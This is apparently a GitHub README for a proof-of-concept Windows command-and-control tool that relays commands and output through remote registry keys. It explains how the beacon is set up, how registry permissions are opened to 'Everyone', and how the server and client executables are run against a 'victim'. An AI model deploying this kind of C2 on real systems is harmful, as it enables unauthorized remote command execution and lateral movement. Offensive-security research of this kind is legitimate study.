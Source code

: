 # Everything Can Be A Shell... An asynchronous shell at least...


### Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab. Enjoy :)
*... Also, at this moment, the repository only contains a single shell using Windows Registry keys. However, I hope to add more in the future. *

### The Concept
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells. The client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

# Shell 1: C2 using Windows registry keys

## Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Demonstration:**
(https://www.youtube.com/watch?v=jOPCbK-WF1M): The C2 server is running on the left while the beacon is on the right

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the client needs to be permitted to make changes to a user-defined registry key.

**Limitations:** 
Since the traffic is based on RPC and SMB, it should only really be suitable for lateral movement on local networks. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

## How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. A registry key HKLM\Software\RegistryC2\\<user-defined> is created along with the following values: cmd, output & sleep. The user-defined registry key is specific to a single beacon and could be compared to setting up a listener.
3. Read/Write permissions are then set for the user "Everyone" on this newly created registry key.
4. Permissions are likewise set on the key: HKLM\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (Note: On exiting/closing the server, these permissions are removed again.) 
5. When executing the beacon on the victim machine, it will connect to the C2 server using the WinReg protocol, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When the timer is up, the client checks-in and executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.
  
## Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
Example: RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
Example: RegC2Client.exe ws01 victim01
```

**Since this is a PoC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


## Screenshots:
**Starting the server:**  
Below, the server is started with the argument "victim01". The Remote Registry Service is attempted to be started, and the necessary permissions are put in place. The Registry key HKLM\Software\RegistryC2\victim01 is created with its necessary values: cmd, output & sleep. 
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360543-a9bf7634-ea0d-4a0c-a9e5-4956701e0af3.png" width=60% height=60%>
</p>
  
  
**Permissions are set:**  
Special permissions are set for "Everone" on the Registry key "RegistryC2\victim01".  
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360608-0ac3a430-912b-4a19-824d-3cfdedb5201b.png" width=60% height=60%>
</p>
  
  
**Beacon running on client:**  
The beacon is started on the victims machine. The beacon has updated its sleep-timer, found the command to execute and posted the result back to the C2-server.
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186356461-715947b2-5926-40fe-9d9f-2264ebe20476.png" width=30% height=30%>
</p>
  
  
**Output is posted back to the server:**  
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360638-91884a40-eaa8-4169-a148-95d14b26b894.png" width=60% height=60%>
</p>
  
  
**Another command is executed:**  
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360670-a328752d-8221-4811-8ae1-0453c211ff03.png" width=60% height=60%>
</p>
  
  
**Exiting server:**  
The server is being closed and the Registry keys are no longer available.
<p align="center">
<img src="https://user-images.githubusercontent.com/35890107/186360706-dce99907-6027-4bad-abc4-ade26429fe41.png" width=60% height=60%>
</p>


### How does it look in Wireshark? 

